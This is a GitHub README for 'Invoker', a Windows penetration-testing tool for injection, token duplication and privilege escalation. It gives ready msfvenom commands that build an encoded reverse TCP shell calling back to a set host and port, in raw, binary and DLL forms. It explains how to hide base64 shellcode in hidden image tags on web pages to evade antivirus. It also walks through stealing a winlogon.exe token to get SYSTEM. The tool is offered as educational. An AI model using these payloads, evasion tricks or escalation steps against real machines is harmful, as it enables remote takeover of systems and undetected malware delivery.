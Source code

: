 # Invoker

Penetration testing utility.

**The goal is to use this tool when access to some Windows OS features through GUI is restricted.**

Capabilities:

* invoke the Command Prompt and PowerShell,
* download a file,
* schedule a task,
* add a registry key,
* connect to a remote host,
* terminate a running process,
* run a new process,
* inject bytecode into a running process,
* inject DLL into a running process,
* enable access token privileges,
* duplicate access token.

Built with Dev-C++ IDE v5.11 (64 bit), compiled with TDM-GCC v4.9.2 (64 bit) and tested on Windows 10 Enterprise OS (64 bit). Download Dev-C++ from [here](https://sourceforge.net/projects/orwelldevcpp/files/Portable%20Releases/).

Made for educational purposes. I hope it will help!

## Invoker Library

Check all the capabilities [here](https://github.com/ivan-sincek/invoker/tree/master/src/lib/invoker).

Feel free to use this library but please do not remove the license.

## PowerShell Scripts

Check all the PowerShell scripts used in the main C++ program [here](https://github.com/ivan-sincek/invoker/tree/master/ps).

## How to Run

Run ['\\exec\\Invoker.exe'](https://github.com/ivan-sincek/invoker/tree/master/exec).

## Bytecode Injection

Elevate privileges by injecting bytecode into a higher-privileged process.

This tool will parse any HTTP response received and look for the custom image element `<img class="bc" src="data:image/gif;base64,payload" alt="bc" hidden="hidden">` where `payload` is a binary code/file encoded in Base64.

With this you can hide your bytecode inside any legitimate web page in plain sight but you must strictly follow this format/rule.

This is very useful when antivirus is constantly deleting your local payloads.

You can also make your own custom element but don't forget to modify the program source code and recompile it.

Check an example at [pastebin.com/raw/Nd1tCBv6](https://pastebin.com/raw/Nd1tCBv6).

**Bytecode provided will most certainly not work for you.**

Bytecode was generated on Kali Linux v2020.1b (64 bit) with the following MSFvenom command (modify it to your need):

```fundamental
msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > /root/Desktop/payload.txt
```

To generate a binary file use the following MSFvenom command (modify it to your need):

```fundamental
msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o /root/Desktop/payload.bin
```

To generate a DLL file use the following MSFvenom command (modify it to your need):

```fundamental
msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o /root/Desktop/payload.dll
```

Bytecode might not work on the first try due to some other bad characters. Trial and error is the key.

## Get the LocalSystem Account (NT AUTHORITY\SYSTEM)

Run the Invoker.exe as administrator.

Enable all access token privileges.

Duplicate the access token from e.g. Windows Logon Application (winlogon.exe) and run a new instance of Invoker.exe.

Within the new Invoker.exe instance, open the Command Prompt and run `whoami`, you should now see `nt authority\system`.

Enable all access token privileges once again.

Close the previous instance of Invoker.exe.

P.S. You get more access token privileges from Local Security Authority Subsystem Service (lsass.exe).

## Images

![Invoker](https://github.com/ivan-sincek/invoker/blob/master/img/invoker.jpg)

![Registry](https://github.com/ivan-sincek/invoker/blob/master/img/registry.jpg)

![Injection](https://github.com/ivan-sincek/invoker/blob/master/img/injection.jpg)

![Shell](https://github.com/ivan-sincek/invoker/blob/master/img/shell.jpg)

![Privileges](https://github.com/ivan-sincek/invoker/blob/master/img/privileges.jpg)
